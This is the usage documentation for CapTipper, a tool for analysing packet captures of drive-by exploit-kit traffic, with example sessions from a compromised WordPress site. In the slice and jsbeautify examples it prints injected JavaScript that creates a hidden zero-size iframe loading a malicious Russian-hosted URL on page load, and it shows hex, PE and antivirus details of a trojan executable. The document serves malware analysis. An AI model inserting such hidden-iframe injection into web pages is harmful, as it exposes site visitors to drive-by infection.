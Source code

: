 =======
Usage
=======

Feeding CapTipper with a drive-by traffic capture (e.g of an exploit kit) displays the user with the requests URI's that were sent and responses meta-data.
The user can at this point browse to http://127.0.0.1/<host>/[URI] and receive the response back to the browser.
In addition, an interactive shell is launched for deeper investigation using various commands such as: hosts, hexdump, info, ungzip, body, client, dump and more...

CapTipper is written in Python and requires Python 2.7 to function properly.
CapTipper was tested on Windows, Linux & Mac and doesn't require any installation; every prerequisites it might need is bundled into its project folder.

Basic Usage:

.. code:: sh

    ./CapTipper.py <PCAP_file> [arguments]

Arguments
==========

CapTipper accepts command line arguments:

-h, --help                  Print this help message and exit
-p PORT, --port PORT        Set web server port
-d FOLDER, --dump FOLDER    Dump all files and exit
-s, --server-off            Disable web server
-short, --short-url         Display shortened URI paths
-r FOLDER, --report FOLDER  Create JSON & HTML report
-g, --ungzip                Automatically ungzip responses
-u, --update                Update CapTipper to newest version

- ``--ungzip`` Automatically ungzip all objects but web-server still responds with the original response.

Console
=======

The Initialization of CapTipper outputs the conversations found between the client and the server in the following format:

[ID] : REQUEST URI -> SERVER RESPONSE TYPE (FILENAME) [SIZE IN BYTES] (Magic: $Whatype)

* ID: An assigned Id to the specific conversation
* REQUEST URI: The URI that was sent to the server in the GET request
* SERVER RESPONSE TYPE: The content-type returned in the server response header
* FILENAME: The filename can be a few things:

    1) Filename attribute given in the response header
    2) Derived from the URI
    3) Assigned by CapTipper if couldn't find any of the above
* SIZE IN BYTES: Response body size
* MAGIC: The file format as identified by the :doc:`Whatype` library

After Initialization, 2 things occur:

    1. CapTipper creates a pseudo-web server that behaves like the web server in the pcap
    2. An Interpreter is launched

The interpreter contains internal tools for further investigation of the objects in the PCAP file.

Opening a URI in the browser is simply by typing ``open`` along with the object id.
For more information on the web server, please see the :doc:`Webserver` chapter.

Following are details for all the currently available commands.

open
----
CapTipper launches a local :doc:`Webserver` imitating the web server(s) in the PCAP.
The ``open`` command gets a given conversation and launches the default browser to go to that URL on the local webserver.

Example:
::

    CT> open 0
    Opening http://localhost:80/ in default browser

log
----
Every request to the local webserver is logged and can be viewed using the ``log`` command:

::

    CT> log
    [2015-07-08T16:25:18.815575] 127.0.0.1 : GET / HTTP/1.1

convs
-----

``convs`` will display all conversations in the form they were displayed when CapTipper was launched.

::

    CT> convs
    Conversations Found:

    0:  /  -> text/html (0.html) [5.4 KB]  (Magic: GZ)
    1:  /seedadmin17.html  -> text/html (seedadmin17.html) [354.0 B]  (Magic: HTML)
    2:  /wp-includes/js/jquery/jquery.js?ver=1.7.2  -> application/javascript (jquery.js) [38.6 KB]  (Magic: GZ)
    3:  /15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html  -> text/html (15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html) [110.5 KB]  (Magic: HTML)
    4:  /wp-content/uploads/2014/01/MetroWest_COVER_Issue2_Feb2014.jpg  -> image/jpeg (MetroWest_COVER_Issue2_Feb2014.jpg) [341.8 KB]  (Magic: JPG)
    5:  /images/footer/3000melbourne.png  -> image/png (3000melbourne.png) [2.9 KB]  (Magic: PNG)
    6:  /images/footer/3207portmelbourne.png  -> image/png (3207portmelbourne.png) [3.0 KB]  (Magic: PNG)
    7:  /wp-content/uploads/2012/09/background1.jpg  -> image/jpeg (background1.jpg) [32.3 KB]  (Magic: JPG)
    8:  /00015d76d9b2rr9f/1415286120  -> application/octet-stream (00015d76.swf) [30.8 KB]  (Magic: SWF)
    9:  /00015d766423rr9f/1415286120  -> application/pdf (XykpdWhZZ2.pdf) [9.7 KB]  (Magic: PDF)
    10:  /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6  -> application/octet-stream (5.exe) [136.0 KB]  (Magic: EXE)
    11:  /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6;1  -> application/octet-stream (5.exe) [136.0 KB]  (Magic: EXE)
    12:  /00015d76rr9f/1415286120/7  -> application/octet-stream (7.exe) [136.0 KB]  (Magic: EXE)
    13:  /00015d761709rr9f/1415286120  -> application/octet-stream (00015d76.swf) [7.9 KB]  (Magic: XAP)
    14:  /00015d76rr9f/1415286120/8  -> application/octet-stream (8.exe) [136.0 KB]  (Magic: EXE)

hosts
-----

The ``hosts`` command allows us to take a bird-eye-view on the hosts and URIs involved in the traffic.

::

    CT> hosts
    Found Hosts:

     www.magmedia.com.au (182.160.157.199:80)
     ├-- /   [0]
     ├-- /wp-includes/js/jquery/jquery.js?ver=1.7.2   [2]
     ├-- /wp-content/uploads/2014/01/MetroWest_COVER_Issue2_Feb2014.jpg   [4]
     ├-- /images/footer/3000melbourne.png   [5]
     ├-- /images/footer/3207portmelbourne.png   [6]
     └-- /wp-content/uploads/2012/09/background1.jpg   [7]


     pixeltouchstudios.tk (108.61.196.84:80)
     └-- /seedadmin17.html   [1]


     grannityrektonaver.co.vu (173.244.195.17:80)
     ├-- /15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html   [3]
     ├-- /00015d76d9b2rr9f/1415286120   [8]
     ├-- /00015d766423rr9f/1415286120   [9]
     ├-- /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6   [10]
     ├-- /00015d76rr9f/1415286120/5/x00809070554515d565b010b03510053535c0505;1;6;1   [11]
     ├-- /00015d76rr9f/1415286120/7   [12]
     ├-- /00015d761709rr9f/1415286120   [13]
     └-- /00015d76rr9f/1415286120/8   [14]


head
-----

``head`` outputs a given conversations response header.

Following is its help message:
::

    Display header of response

    Usage: head <conv_id>


For example:
::

    CT> head 0
    Displaying header of object 0 (0.html):

    HTTP/1.1 200 OK
    Content-Encoding: gzip
    Vary: Accept-Encoding
    Transfer-Encoding: chunked
    Date: Thu, 06 Nov 2014 15:03:41 GMT
    Server: LiteSpeed
    Connection: close
    X-Powered-By: PHP/5.4.32
    X-Pingback: http://www.magmedia.com.au/xmlrpc.php
    Content-Type: text/html; charset=UTF-8
    Set-Cookie: slimstat_tracking_code=256799id.b66059145c9c6730b88376341fa0a97e; expires=Sun, 07-Dec-2014 15:03:41 GMT; path=/


body
----
body gets the conversation id as an argument and outputs the response body. Following is its help message:

::

    Displays the text representation of the body

    Usage: body <conv_id> [size=256]



By default, ``body`` displays the first 256 bytes of the object, but it can accept a second argument which indicates the amount of bytes of the response body to display.
it can also accept ``all`` as the second argument, which will return the entire body.

For example:
::

    CT> body 1 128
    Displaying body of object 1 (seedadmin17.html) [128 bytes]:

    <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
    <html><head>
    <title>302 Found</title>
    </head><body>
    <h1>Found</h1>
    <p>The doc

ungzip
------
Many times using the ``body`` command will result in an un-readable response due to use of the GZIP compression.

::

    CT> body 0
    Displaying body of object 0 (0.html) [256 bytes]:

    ▼     ♦♥─╜i{#╟ס╢√}~♣X╓t♥═"HJצg♀░→o½%Y▓╡ם║m┘CR║
    @a!▒P ╪כ        ╬o?≈‼╣TJ≥£≈\g╞jó╢\"#cן╚πg ÷ry≤~5↔O6םµ╦Vπ├ףף h|╛*ך╞½σh≤6_§ם╧ק╖כa╛ש.↨iπ╦┼á▌רl67¥ππ╤z╘^«╞╟ ÷∞°▀F╖כב▐hלכ═╦σ≥zZ4≤╓▌¢|╒Φg├σαv^,6φב=h╧≤═`╥\¶o
    ←▀↨π╧▐▌4ףf»≤π╢█h%חy{U▄╠≥A╤<n₧_┤?Φ=█▐▌_4/Z↨τ↨ק↨↨↨╟↨ח?^╢מ╟irq±┴i


``ungzip`` gets a conversation id as an argument and creates a new object
with the ungzipped data of the object

::

    CT> ungzip 0
     GZIP Decompression of object 0 (0.html) successful!
     New object created: 15

The new object created is added to the `objects` list and can be seen using the ``objects`` command:

::

    CT> objects
    Displaying Objects:

     ID   CID     TYPE          NAME
    ---- -----  -----------   --------
      0 | 0   | body        | 0.html
      1 | 1   | body        | seedadmin17.html
      2 | 2   | body        | jquery.js
      3 | 3   | body        | 15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html
      4 | 4   | body        | MetroWest_COVER_Issue2_Feb2014.jpg
      5 | 5   | body        | 3000melbourne.png
      6 | 6   | body        | 3207portmelbourne.png
      7 | 7   | body        | background1.jpg
      8 | 8   | body        | 00015d76.swf
      9 | 9   | body        | XykpdWhZZ2.pdf
     10 | 10  | body        | 5.exe
     11 | 11  | body        | 5.exe
     12 | 12  | body        | 7.exe
     13 | 13  | body        | 00015d76.swf
     14 | 14  | body        | 8.exe
     15 | 0   | ungzip      | ungzip-0.html     <---------- NEW UNGZIPPED OBJECT



req
----

``req`` gets the conversation id as an argument and outputs the request data.

For example:
::

    CT> req 0
    Displaying request for object 0 (0.html) [633 bytes]:

    GET / HTTP/1.1
    Accept: image/jpeg, application/x-ms-application, image/gif, application/xaml+xml, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
    Referer: http://www.google.com/url?url=http://www.magmedia.com.au/&rct=j&frm=1&q=&esrc=s&sa=U&ei=uItbVLWHHYGpyASK44CoCQ&ved=0CBUQFjAA&usg=AFQjCNHuIidJc6dJKT_wy-UruJtaHR9Mhg
    Accept-Language: en-US
    User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
    Accept-Encoding: gzip, deflate
    Host: www.magmedia.com.au
    Connection: Keep-Alive

hexdump
--------
The ``hexdump`` command displays the hexdump of a given conversation object. like the ``body`` command,
it display the first 256 bytes of the objects but this can be changed by providing the second ``size`` argument.

Its help message:
::

    Display hexdump of given object

    Usage: hexdump <conv_id> [size=256]


For example:

::

    CT> hexdump 12
    Displaying hexdump of object 12 (7.exe) body [256 bytes]:

    0000   4D 5A 90 00 03 00 00 00 04 00 00 00 FF FF 00 00    MZ..............
    0010   B8 00 00 00 00 00 00 00 40 00 00 00 00 00 00 00    ........@.......
    0020   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
    0030   00 00 00 00 00 00 00 00 00 00 00 00 C8 00 00 00    ................
    0040   0E 1F BA 0E 00 B4 09 CD 21 B8 01 4C CD 21 54 68    ........!..L.!Th
    0050   69 73 20 70 72 6F 67 72 61 6D 20 63 61 6E 6E 6F    is program canno
    0060   74 20 62 65 20 72 75 6E 20 69 6E 20 44 4F 53 20    t be run in DOS
    0070   6D 6F 64 65 2E 0D 0D 0A 24 00 00 00 00 00 00 00    mode....$.......
    0080   37 62 C4 DA 73 03 AA 89 73 03 AA 89 73 03 AA 89    7b..s...s...s...
    0090   F0 1F A4 89 72 03 AA 89 3C 21 A3 89 76 03 AA 89    ....r...<!..v...
    00A0   45 25 A7 89 72 03 AA 89 52 69 63 68 73 03 AA 89    E%..r...Richs...
    00B0   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
    00C0   00 00 00 00 00 00 00 00 50 45 00 00 4C 01 03 00    ........PE..L...
    00D0   51 5C 5A 54 00 00 00 00 00 00 00 00 E0 00 0F 01    Q\ZT............
    00E0   0B 01 06 00 00 C0 01 00 00 70 00 00 00 00 00 00    .........p......
    00F0   14 13 00 00 00 10 00 00 00 D0 01 00 00 00 40 00    ..............@.

peinfo
------
The ``peinfo`` displays interesting and suspicious information regarding a binary file, based on the Malware Cookbook PE scanner.

It also supports using the ``-p`` argument to identify packers from the PEiD signature database.
Help message:
::

    Display PE info of the file

    Usage: peinfo <obj_id> [-p]

    OPTIONS:
         -p     -   Check for packers

For example:
::

    CT> peinfo 12
    Displaying PE info of object 12 (7.exe) [139264 bytes]:

    Meta-data
    ================================================================================
    Size:    139264 bytes
    MD5:     67291715c45c4594b8866e90fbf5c7c4
    SHA1:    a86dcb1d04be68a9f2d2373ee55cbe15fd299452
    Date:    0x545A5C51 [Wed Nov  5 17:20:17 2014 UTC]
    EP:      0x401314 .text 0/3
    CRC:     Claimed: 0x24dec, Actual: 0x2621d [SUSPICIOUS]

    Resource entries
    ================================================================================
    Name               RVA      Size     Lang         Sublang                  Type
    --------------------------------------------------------------------------------
    RT_ICON            0x22980  0xea8    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x218d8  0x10a8   LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x21470  0x468    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x21108  0x368    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_ICON            0x20460  0xca8    LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_GROUP_ICON      0x20414  0x4c     LANG_NEUTRAL SUBLANG_NEUTRAL
    RT_VERSION         0x201b0  0x264    LANG_ENGLISH SUBLANG_ENGLISH_US

    Sections
    ================================================================================
    Name       VirtAddr     VirtSize     RawSize      Entropy
    --------------------------------------------------------------------------------
    .text      0x1000       0x1b5d8      0x1c000      6.635876
    .data      0x1d000      0x2128       0x1000       0.000000
    .rsrc      0x20000      0x3828       0x4000       4.580442

    Version info
    ================================================================================
    Translation: 0x0409 0x04b0
    InternalName: ProV
    FileVersion: 3.07
    CompanyName: VSO Software
    Comments: All rights reserved
    ProductName: Filmf\xf6rderanstalten
    ProductVersion: 3.07
    OriginalFilename: ProV.exe

info
----

``info`` will display metadata related to a given conversation, such as:

- Server IP and PORT
- Packet sent time
- Host
- URI
- Referrer
- Request Method
- Result number
- Result content type
- File name
- File type as identified by Whatype
- Response size

Help message:
::

    CT> help info

    Display info on object

    Usage: info <conv_id>

For example:

::

    CT> info 1
    Info of conversation 1:

     SERVER IP   : 108.61.196.84:80
     TIME        : Thu, 11/06/14 15:02:38
     HOST        : pixeltouchstudios.tk
     URI         : /seedadmin17.html
     REFERER     : http://www.magmedia.com.au/
     METHOD      : GET
     RESULT NUM  : 302 Found
     RESULT TYPE : text/html
     FILE NAME   : seedadmin17.html
     MAGIC       : HyperText Markup Language (HTML)
     LENGTH      : 354 B

plugin
------
CapTipper supports external plugins.
Extensive information regarding the plugin infrastructure can be found in the :doc:`Plugins` chapter.

The ``plugin`` command allows the user to use plugins that are stored in the ``plugins\`` folder. Its help message:
::

    CT> help plugin
    Launching an external plugin (alias: p)

    usage: plugin <plugin_name / plugin_id> [-l] <*args>
         -l      - List all available plugins

    examples:
         plugin find_scripts
         plugin 1
         p find_scripts

List all available plugins:
::

    CT> plugin -l
    Loaded Plugins (3):
     0 : check_host - Checks if a given id's host is alive
     1 : find_scripts - Finds external scripts included in the object body
     2 : print_body - Prints the body of a conversation and ungzip if needed


* The ``plugin`` command can be also used by its alias ``p``.

Each plugin is assigned with a unique ID, so the use of the plugin can be done either by its name or by its ID.

For example, we can use the ``check_host`` plugin who has the id ``0`` assigned to it.
This plugin receives a conversation id as an argument and checks if the domain hosting the conversation URL is alive.
Let's use the plugin with conversation ``12``:

::

    CT> p 0 12
    Checking host grannityrektonaver.co.vu
    IP:PORT = 173.244.195.17:80
    [-] Server is dead


dump
----
The ``dump`` command write to disk a given object id or all files found in the PCAP.

Its help message:

::

    Dumps the object file to a given folder

    Usage: dump <conv_id> <path> [-e]

    Options:
       -e       - ignores executables

Examples:
::

    dump 4 c:\files\index.html
                Dumps object 4 to given path

    dump all c:\files
                 Dumps all files to folder by their found name

    dump all c:\files -e
                 Dumps all files to folder by their found name, without EXE files


objects
-------
The ``objects`` command display the objects list described in the :doc:`Core` chapter.

::

    CT> objects
    Displaying Objects:

     ID   CID     TYPE          NAME
    ---- -----  -----------   --------
      0 | 0   | body        | 0.html
      1 | 1   | body        | seedadmin17.html
      2 | 2   | body        | jquery.js
      3 | 3   | body        | 15c0b14drr9f_1_08282d03fb0251bbd75ff6dc6e317bd9.html
      4 | 4   | body        | MetroWest_COVER_Issue2_Feb2014.jpg
      5 | 5   | body        | 3000melbourne.png
      6 | 6   | body        | 3207portmelbourne.png
      7 | 7   | body        | background1.jpg
      8 | 8   | body        | 00015d76.swf
      9 | 9   | body        | XykpdWhZZ2.pdf
     10 | 10  | body        | 5.exe
     11 | 11  | body        | 5.exe
     12 | 12  | body        | 7.exe
     13 | 13  | body        | 00015d76.swf
     14 | 14  | body        | 8.exe




find
----
The ``find`` command searches for all occurrences of a given regex in a given conversation, or all conversations.

Its help message:
::

    Search for a regular expression in all or specific object

    Usage: find <obj_id / all> <pattern>


    Output data is displayed as follows:

       ([Line number] , [Offset from begining of file]) : [Found string]

It is advised to start CapTipper with the ``-g`` flag in order to automatically ungzip all objects and make the search more efficient.

Example searching for the domain `rabiorik` in all objects:
::

    CT> find all rabiorik
    Searching 'rabiorik' in all objects:

     0.html [0]:
        (777,50587) : t(){create_frame("http://rabiorik.ru/wlkzkir.cgi?default")

     wlkzkir.cgi [7]:
        (8,256) : 22 (@RELEASE@) Server at rabiorik.ru Port 80</address></b

Following, and example searching `create_frame` in a specific object:
::

    CT> find 0 create_frame
    Searching 'create_frame' in object 0 (0.html):

     (777,50213) : xt/javascript'>function create_frame(a){var b=document.getEle
     (777,50566) : true}}function bdsls4t(){create_frame("http://rabiorik.ru/wlkz

slice
-----
The command ``slice`` displays a specified range of bytes (substring) from an object.

Its help message:
::

    Returns bytes from offset in given length

    Usage: slice <obj_id> <offset> <len | 'eob'>

Following the previous use of ``find``, we can examine the "create_frame" javascript function by requesting 256 bytes from its starting position.
``slice`` accepts the object-id (0), the offset start (50213) and the length (256):
::

    CT> slice 0 50213 256
    Displaying 256 of bytes from offset 50213 in object 0 (0.html):

    create_frame(a){var b=document.getElementById('weqe');if(typeof(b)!='undefined'&&b!=null){}
    else{var c=document.createElement('iframe');c.id="weqe";c.style.width="0px";c.style.height="0px";
    c.style.border="0px";c.frameBorder="0";c.style.display="none";c.setA

It also includes support for ``EOB`` (End Of Block) detection.
This will tell ``slice`` to display code until the end of the current block we are looking at,
whether it's a class, a function or a statement (based on braces { }).

The ``eob`` argument is used instead of the length value, e.g:

::

    CT> slice 0 50213 eob
    Displaying 334 of bytes from offset 50213 in object 0 (0.html):

    create_frame(a){var b=document.getElementById('weqe');if(typeof(b)!='undefined'&&b!=null){}
    else{var c=document.createElement('iframe');c.id="weqe";c.style.width="0px";c.style.height="0px";
    c.style.border="0px";c.frameBorder="0";c.style.display="none";c.setAttribute("frameBorder","0");
    document.body.appendChild(c);c.src=a;return true}}

If we want to be able to read the code more conveniently, we can use the ``jsbeautify`` command.

jsbeautify
----------
The ``jsbeautify`` (JavaScript Beautify) command reformats the code to be more human-readable, very useful for deep inspection.

Its help message:
::

    Display JavaScript code after beautify

    Usage: jsbeautify <obj / slice> <object_id> <offset> <length>

    Example: jsbeautify slice <object_id> <offset> <len | eob>

    Example: jsbeautify obj <object_id>


``jsbeautify`` can accepts a conversation object and create a new one. (The new object can be dumped to the file system):

::

    CT> jsbeautify obj 8
     JavaScript Beautify of object 8 (jquery.ui.effect.min.js) successful!
     New object created: 16

Like ``ungzip``, The new object created can be seen using the ``objects``.

``jsbeautify`` can also accept the ``slice`` command seen in the previous section.

Example of the ``jsbeautify`` on the "create_frame" function in the javascript code, combined with the ``slice`` command.

::

    CT> jsbeautify slice 0 50213 512
    create_frame(a) {
        var b = document.getElementById('weqe');
        if (typeof(b) != 'undefined' && b != null) {} else {
            var c = document.createElement('iframe');
            c.id = "weqe";
            c.style.width = "0px";
            c.style.height = "0px";
            c.style.border = "0px";
            c.frameBorder = "0";
            c.style.display = "none";
            c.setAttribute("frameBorder", "0");
            document.body.appendChild(c);
            c.src = a;
            return true
        }
    }
    function bdsls4t() {
        create_frame("http://rabiorik.ru/wlkzkir.cgi?default")
    }
    try {
        if (window.attachEvent) {
            window.attachEvent('onload', bdsls4t)
        } else {
            if (window.onload) {
                var curronload = wi

vt
----
``vt`` sends a given object ids MD5 to VirusTotal to see if it is recognized by any of the Anti-Virus providers.

The use of ``vt`` requires a VirusTotal Public API key.

For example:

::

    CT> vt 14
     VirusTotal result for object 14 (8.exe):

     Detection: 46/57
     Last Analysis Date: 2015-04-09 12:37:31
     Report Link: https://www.virustotal.com/file/955e4e4a56bf80a30636b0c34673cdd6a889aff6569331a5336e1606e7c1050c/analysis/1428583051/

     Scan Result:
        MicroWorld-eScan	Trojan.GenericKD.1961906	12.0.250.0	20150409
        nProtect	Trojan.GenericKD.1961906	2015-04-09.02	20150409
        CAT-QuickHeal	TrojanPWS.Zbot.rw3	14.00	20150409
        McAfee	Generic.vd	6.0.5.614	20150409
        Malwarebytes	Trojan.Dorkbot.ED	1.75.0.1	20150409
        VIPRE	Trojan.Win32.Generic.pak!cobra	39190	20150409
        BitDefender	Trojan.GenericKD.1961906	7.2	20150409
        K7GW	Trojan ( 004b065c1 )	9.202.15539	20150409
        K7AntiVirus	Trojan ( 004b065c1 )	9.202.15538	20150409
        Agnitum	Trojan.Injector!qCiqLIlbpUs	5.5.1.3	20150408
        F-Prot	W32/Injector.OA	4.7.1.166	20150409
        Symantec	Infostealer.Limitail	20141.2.0.56	20150409
        Norman	Injector.HKVF	7.04.04	20150409
        TotalDefense	Win32/Tofsee.CQVQOaC	37.0.11540	20150409
        TrendMicro-HouseCall	TROJ_SPNV.01KC14	9.700.0.1001	20150409
        Avast	Win32:VB-AIWF [Trj]	8.0.1489.320	20150409
        Kaspersky	Trojan.Win32.VB.ctmy	15.0.1.10	20150409
        NANO-Antivirus	Trojan.Win32.Spambot.dippmr	0.30.10.952	20150409
        ViRobot	Trojan.Win32.R.Agent.139264[h]	2014.3.20.0	20150409
        Rising	PE:Malware.XPACK-HIE/Heur!1.9C48	25.0.0.17	20150409
        Ad-Aware	Trojan.GenericKD.1961906	12.0.163.0	20150409
        Emsisoft	Trojan.GenericKD.1961906 (B)	3.0.0.600	20150409
        Comodo	UnclassifiedMalware	21701	20150409
        F-Secure	Trojan.GenericKD.1961906	11.0.19100.45	20150409
        DrWeb	Trojan.Spambot.12689	7.0.12.3050	20150409
        Zillya	Trojan.VB.Win32.129714	2.0.0.2132	20150408
        TrendMicro	TROJ_SPNV.01KC14	9.740.0.1012	20150409
        McAfee-GW-Edition	BehavesLike.Win32.AAEH.ch	v2015	20150409
        Sophos	Mal/Generic-L	4.98.0	20150409
        Cyren	W32/Injector.CFDL-3956	5.4.16.7	20150409
        Avira	TR/Injector.139264.29	3.6.1.96	20150409
        Antiy-AVL	Trojan/Win32.SGeneric	1.0.0.1	20150409
        Microsoft	Backdoor:Win32/Tofsee.F	1.1.11502.0	20150409
        AhnLab-V3	Trojan/Win32.MDA	2015.04.09.00	20150408
        GData	Trojan.GenericKD.1961906	25	20150409
        ALYac	Trojan.GenericKD.1961906	1.0.1.4	20150409
        AVware	Trojan.Win32.Generic.pak!cobra	1.5.0.21	20150409
        Panda	Trj/WLT.B	4.6.4.2	20150408
        Zoner	Trojan.Tofsee.AX	1.0	20150407
        ESET-NOD32	Win32/Tofsee.AX	11448	20150409
        Tencent	Trojan.Win32.Qudamah.Gen.17	1.0.0.1	20150409
        Ikarus	Trojan-Spy.Agent	T3.1.8.9.0	20150409
        Fortinet	W32/BOVZ!tr	5.0.999.0	20150409
        AVG	Inject2.BDIT	15.0.0.4328	20150409
        Baidu-International	Trojan.Win32.VB.ctmy	3.5.1.41473	20150409
        Qihoo-360	HEUR/QVM03.0.Malware.Gen	1.0.0.1015	20150409


iframes
-------
The ``iframes`` command searches for iframe tags as part of the html source.

::

    CT> iframes 2
    Searching for iframes in object 2 (jquery.js)...
     1 iframe(s) Found!

     [I] 1 : http://pixeltouchstudios.tk/seedadmin17.html

client
------

Display all collected data on the client found in the PCAP.

::

    CT> client

    Client Info:

     IP               :  192.168.204.136
     MAC              :  00:0c:29:64:76:eb
     USER-AGENT       :  Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
     X-FLASH-VERSION  :  11,8,800,94


ziplist
--------
The ``ziplist`` command receives an object id holding a ZIP file and display all files and folders stored inside it.

For example:
::

    CT> ziplist 6
     12 Files found in zip object 6 (QrWusuR.jar):

     [Z] 1 : META-INF/
     [Z] 2 : META-INF/MANIFEST.MF
     [Z] 3 : bDNxrqYgNO.class
     [Z] 4 : dNMU.class
     [Z] 5 : dxQegSHi.class
     [Z] 6 : EzAD.class
     [Z] 7 : ICrWA.class
     [Z] 8 : lcaOISBn.class
     [Z] 9 : pmd.class
     [Z] 10 : thXEdm.class
     [Z] 11 : YWbTSCCIk.class
     [Z] 12 : eqx.ps

output
-------
The ``output`` command logs all console commands and results to a file.
This is done by overriding ``sys.stdout``.
::

    CT> output /Users/omriher/Temp/Nuclear-110615.txt
    Logging to /Users/omriher/Temp/Nuclear-110615.txt

The logging only includes data from after using the ``output`` command.
In order to stop logging use ``stop`` as the command argument.

::

    CT> output stop
    Stopped logging to /Users/omriher/Temp/Nuclear-110615.txt


strings
--------
The ``strings`` command gets an object id and returns all strings found in that object.

For example:
::

    CT> strings 14
    Strings found in object 14 (8.exe) [139264 bytes]:
    !This program cannot be run in DOS mode.
    Richs
    .text
    `.data
    .rsrc
    MSVBVM60.DLL
    Meistillustriertes
    JGd:O
    Kontrollmodus
    Baustoffkartelle5
    Kontrollmodus
    Kanonenfeuerunterst
    tzungen57
    ...


hashes
-------
The ``hashes`` command shows all available hashes of a given object.

::

    CT> hashes 14
     Hashes of object 14 (8.exe):

     md5       :   67291715c45c4594b8866e90fbf5c7c4
     sha1      :   a86dcb1d04be68a9f2d2373ee55cbe15fd299452
     sha224    :   6cc5585425cbb8b656ac4d12ce6331561df705787a0f8036b5f47eed
     sha256    :   955e4e4a56bf80a30636b0c34673cdd6a889aff6569331a5336e1606e7c1050c
     sha384    :   a207d38c964a0736adb86e74ea20ae5737afea9bfc87b7126ebb6d628432f6261dcef15cacf3b3bc14b072374dadf676
     sha512    :   703a9a69239ffe3bddf44fecf09136cb1e9872708d8e3d2d39f9904a4cc075d9e63d6b421bea8f1affeef855f8d9c5b903a517779777febaa84521824b4a07e1
